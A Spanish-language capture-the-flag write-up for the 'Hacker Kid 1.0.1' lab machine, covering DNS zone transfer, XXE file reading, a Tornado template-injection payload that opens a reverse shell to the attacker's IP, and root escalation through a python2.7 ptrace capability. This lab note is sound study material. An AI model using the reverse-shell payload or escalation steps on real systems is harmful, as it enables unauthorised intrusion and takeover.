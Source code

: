 # Hacker Kid 1.0.1

Tags: [[_webFuzzing]],[[_xxe]],[[_ssti]],[[_webExploitation]],[[_capabilities]]

## Primeros pasos
(Reconocimiento).

Primero le acomodamos bien para que agarre una IP (poner modo Bridged).

Organizamos TMUX.
Hacemos un escaneo en la red para determinar la IP de la máquina.
Mediante el OUI reconocemos la máquina que vamos a atacar.

Le hacemos un ping a la máquina. (Está activa o no).
Posible máquina Linux.
Creamos un directorio como la IP o nombre de la máquina.
Ponemos la IP de la máquina en un lugar visible.
Creamos los directorios de trabajo.

Empezamos el escaneo con NMAP.

Buscamos codename con launchpad, un posible Ubuntu Focal.

Puertos abiertos.

<span style="color:#ff669c">53</span> - domain
bind.version: 9.16.1-Ubuntu

<span style="color:#ff669c">80</span> - HTTP

<span style="color:#ff669c">9999</span> - abyss. HTTPD
Pide loguearse.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">53</span>.
ISC Bind permite conectar fácilmente registros de ISC Bind con Microsoft Sentinel.
Tiene algo que ver con el DNS.
Para descubrir dominios asociados (así como IPs expuestas, etc.) necesito tener el dominio de la web antes. Después usamos dig

dig.
Conseguimos estos dominios
blackhat.local
hackers.blackhat.local

Antes de esto, vemos qué cambian en las webs.
Ahora probemos a hacer el ataque de transferencia de zona:
Como el segundo ya tiene "hackers", hacemos reconocimiento al segundo.

Descubrimos
-Una IP, nada importante.
-Correos sin importancia

Un server encontrado.
hackerkid.blackhat.local :    es el más interesante.
Por el puerto 80 si cambia, en 9999 no.


<span style="color:#ff669c">80</span>.
whatweb.
Lo típico, jquery, el título, no mucho.

Análisis de la web.
En el código fuente dice que hay un parámetro GET "page_no" para ver páginas. Lo probamos

Y nos pone un texto, así que debemos fuzzear para encontrar algo de información.
Hicimos un script para automatizarlo:
![[Pasted image 20240723114216.png]]
Lo <span style="color:#07b4f2">ejecuté</span> así: <span style="color:#88c425">./fuzz.sh | grep -oP "\d{1,3}"</span>

Y veo que el número 21 me muestra algo, 
Bla bla, y me da esto hackers.blackhat.local
(Ahora usemos esos al entrar a las webs y todo eso).

Dice que tiene subdominios configurados, así que por eso el puerto 53, como ya habíamos visto podemos aplicar un <span style="color:#ff2dc0">Domain Zone Transfer Attack</span>, con <span style="color:#ff2dc0">dig</span>.

Antes de lo de arriba verificamos las webs
blackhat.local :    Forbidden, pero normal en 9999.
hackers.blackhat.local :    es todo normal.


<span style="color:#bef202">Subdominio</span>.
<span style="color:#ecacb6">hackerkid.blackhat.local</span>
En el código fuente se ve que se envía data en formato XML.
Al final llama al archivo "process.php", lo busco en la URL, pero me dice escrito que no está habilitado.

Al enviar el formulario me dice que el correo no está habilitado, etc., lo mejor es que intercepte con BurpSuite.

Test XXE.
Es vulnerable a un XXE, puedo cargar archivos locales, un tipo "LFI", pero XXE tiene cosillas, antes de avanzarlo, es preferible enumerar la máquina bien. Recordemos usar base64 si no se ve.
XXE -> "LFI"
Usuario "saket" a nivel de sistema. No puedo validarlo.
Puertos internos: 53, 631, 953, 9999

Se tensó un poco más, puedo hacer peticiones a mi servidor desde el XXE.
Puedo intentar inyectar un DTD malicioso. 
PROBAR. Apuntar al dominio que me pone forbbiden en el puerto 80 (blackhat.local). Pero antes enumeremos más.

En el <span style="color:#ecacb6">/home/saket/.bashrc</span> :    vemos una credencial para la app de python.
<span style="color:#ff9a57">admin</span>:<span style="color:#ff9a57">Saket!#$%@!!</span> || <span style="color:#ff9a57">saket</span>:<span style="color:#ff9a57">Saket!#$%@!!</span>
Pero no son del panel de login (Tornado).
Lo que hice fue probar "<span style="color:#ff9a57">saket</span>" como username y me deja entrar.


<span style="color:#ff669c">9999.</span>
Tornado httpd 6.1 Framework de python, diseñado, crear servidores web en modo no bloqueo, permite continuidad de procesos des pués de que la transmisión de datos haya concluido. Esto con python.

whatweb.
Primero entra a una ruta y aplica un redirect a un Title "Please Log In".

Análisis de la web.
Es un login, pide username y password.
Algo de que el home no se qué, le doy a un enlace y me lleva al de nuevo, pero me cuenta las veces que le di.

Gracias al XXE obtuve una credencial y entro.
Es Tornado, podemos buscar extensiones .py

Antes de eso, la web me dice que le de mi nombre o unas movidas, intercepto con BurpSuite y veo que se envían cositas.

Antes de eso, podemos buscar en Searchsploit e Internet para encontrar alguna vulnerabilidad para<span style="color:#ff2dc0"> Tornado http 6.1</span>

Ojo.
https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/out-of-band-code-execution-via-ssti-python-tornado/

https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/code-execution-via-ssti-python-tornado/

Esas dos son informativas.

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

En esta vemos que par el ejemplo hay un parámetro <span style="color:#ecacb6">?name</span>, pruebo en donde estoy logueado y sí, me muestra mi input.
https://ajinabraham.com/blog/server-side-template-injection-in-tornado :    (hasta puedo copiar código y practicar).
De hecho, parece ser el mismo código.

En Tornado en el puerto 9999
STTI -> RCE
<span style="color:#ecacb6">http://hackers.blackhat.local:9999/?name={%%20import%20os%20%}{{os.system(%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.0.13/443%200%3E%261%22%27)}}</span>
Ese fue el payload que usé.
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection :    al final lo vi de aquí también.

Ejecuto (Reverse Shell) y pa deeentro.


## Escalada

Enumerar todo el sistema.
Efectivamente, Ubuntu Focal.
sudo -l :    no tengo la credencial del usuario.

Hay una capabilitie para el python2.7 (CAP_SYS_PTRACE) :    Investigar.

HackTricks me dice que tengo que proporcionar in PID.
Así que analicemos los procesos.
Efectivamente, tiene que ver con procesos, en este caso, lo primero es ver un proceso que esté corriendo root, uno de apache por ejemplo, y obtener el PID (<span style="color:#88c425">ps -eaf</span>).

Luego copiamos el script de https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#capabilities-in-docker-containers :    el de python2.7 de la capabilitie en cuestión.
Este PoC ayudó: https://tbhaxor.com/exploiting-linux-capabilities-part-6/

Lo creamos en la máquina víctima, ponemos bien el HashBang y eso.

Después lo ejecutamos
<span style="color:#88c425">python2.7 prueba.py 751</span> :    le pasamos el PID del proceso de root.
Eso lo que hace es inyectar <span style="color:#ff2dc0">Shellcode</span> para que se ejecute , y como el servicio lo corre <span style="color:#ff2dc0">root</span>, se hará de forma <span style="color:#ff2dc0">privilegiada</span>, con el fin de que entable una [[Bind Shell]] por TCP, por un puerto y poder conectarme después.

Nos abre por defecto el <span style="color:#ff669c">puerto 5600</span>, así que solo basta conectarse <span style="color:#88c425">nc localhost 5600</span> :    esto desde la máquina víctima, pero puedo entrar desde mi máquina poniendo la IP de la máquina víctima (por ello la idea de salir de un contenedor).

Y pa deeeeentro.
FIN.

Tuvo de todo, XXE, STTI, "LFI", Capabilitie Abusing.